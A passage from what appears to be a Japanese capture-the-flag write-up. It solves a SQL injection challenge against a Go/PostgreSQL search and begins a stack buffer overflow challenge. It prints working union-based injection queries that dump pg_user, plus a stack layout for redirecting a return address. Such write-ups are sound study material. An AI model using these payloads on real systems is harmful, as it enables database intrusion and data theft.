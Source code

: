 さてそれではどうするか，`limit`はダメそうなのでやはり`search word`でクエリを組み立てる必要がありそうです．
`'`が入らなそうなのでどうしようかと思っていましたが，`\'`になるだけなので実はいけるのではと思い手元にPostgre環境を立てて実行してみたところ実行できました．
というわけで実は`search word`でインジェクションのクエリが組み立てられそうです．というわけで次のようなクエリを組み立てました．
```sql
select url, text, tweeted_at from tweets where text like '%hoge\' union select usename, usename, null from pg_user;-- %' order by tweeted_at desc limit 10;
```
これは`;--`より後ろがコメントとして無視されるので実際に実行されるのは以下のようになります．
```sql
select url, text, tweeted_at from tweets where text like '%hoge\' union select usename, usename, null from pg_user;
```
これで行けると思いましたが，`500`になってしまいました．
手元の環境で実行できているのに`500`になるので他の原因がありそうです．
そういえば`500`になるのはもう一箇所ありました．
ここですね．
```go
err := rows.Scan(&url, &text, &tweeted_at)
		if err != nil {
			http.Error(w, http.StatusText(500), 500)
			return
		}
```
どうしてエラーになるのかと眺めていたところ，`rows.Scan()`はクエリの実行結果に`null`が入っているとエラーを返すことに気付きました．
[こちら](https://qiita.com/Neetless/items/cce3d256a3b879d6f9b3)を参照してください．
つまり，先ほどのクエリでは`null`を返しているのでダメということですね．
というわけで最終的に組み立てたのは以下のようなクエリです．
```sql
select url, text, tweeted_at from tweets where text like '%hoge\' union select usename, usename, current_timestamp from pg_user;
```
先ほど`null`だった部分を`current_timestamp`に変更して現在時刻を取得するようにするとフラグを得ることができました．

### Beginner's Stack
Pwnのスタックバッファオーバーフローの問題です．実行ファイルが配布されます．
問題サーバに接続すると以下のように表示されます．
`win`を呼び出せば`system('/bin/sh')`が実行されるようですが，`main`をディスアセンブルしても`win`を呼び出している箇所はありません．
というわけでどこかの関数のリターンアドレスを書き換えて`win`に飛ばせれば良さそうです．
```
 9001
Your goal is to call `win` function (located at 0x400861)

   [ Address ]           [ Stack ]
                   +--------------------+
0x00007ffcfd4212b0 | 0x0000000000000000 | <-- buf
                   +--------------------+
0x00007ffcfd4212b8 | 0x0000000000000000 |
                   +--------------------+
0x00007ffcfd4212c0 | 0x0000000000000000 |
                   +--------------------+
0x00007ffcfd4212c8 | 0x00007f9ada20d170 |
                   +--------------------+
0x00007ffcfd4212d0 | 0x00007ffcfd4212e0 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffcfd4212d8 | 0x000000000040084e | <-- return address (vuln)
                   +--------------------+
0x00007ffcfd4212e0 | 0x0000000000400ad0 | <-- saved rbp (main)
                   +--------------------+
0x00007ffcfd4212e8 | 0x00007f9ad9c14b97 | <-- return address (main)
                   +--------------------+
0x00007ffcfd4212f0 | 0x0000000000000001 |
                   +--------------------+
0x00007ffcfd4212f8 | 0x00007ffcfd4213c8 |
                   +--------------------+

```